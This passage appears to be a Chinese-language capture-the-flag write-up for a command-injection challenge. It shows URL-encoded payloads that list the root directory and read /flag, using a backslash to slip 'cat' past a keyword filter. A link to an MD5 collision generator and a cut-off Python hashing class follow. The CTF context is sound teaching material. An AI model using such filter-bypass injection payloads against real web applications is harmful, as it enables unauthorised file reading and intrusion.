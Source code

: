 ----

  

>/表示目录，没有特别指明则输出所有目录名

  

`dir%20/`

  

```

bin   dev  flag  lib    media  opt   root  sbin  sys  usr

boot  etc  home  lib64  mnt    proc  run   srv   tmp  var

```

----

  

>cat（英文全拼：concatenate）命令用于连接文件并打印到标准输出设备上。

  

`ca\t%20/flag`

得到flag

  

------

  

# ファンワイ

  

<a href=https://github.com/iamjazz/Md5collision>MD5碰撞生成生成器</a>

  

```python

//MD5碰撞生成字典

class batch_Md5():

    def one_md5_encode(self, string):

        md5_data = hashlib.md5()

        md5_data.update(string.encode("utf-8"))

        print(string +" ===> "+md5_data.hexdigest())

  

    def batch_md5_encode(self, file, outfile):

        for strtmp in file:

            strtmp = strtmp.replace("\n", "")

            time.sleep(1)

            try:

                md5_data = hashlib.md5()

                md5_data.update(str(strtmp).encode("utf-8"))
```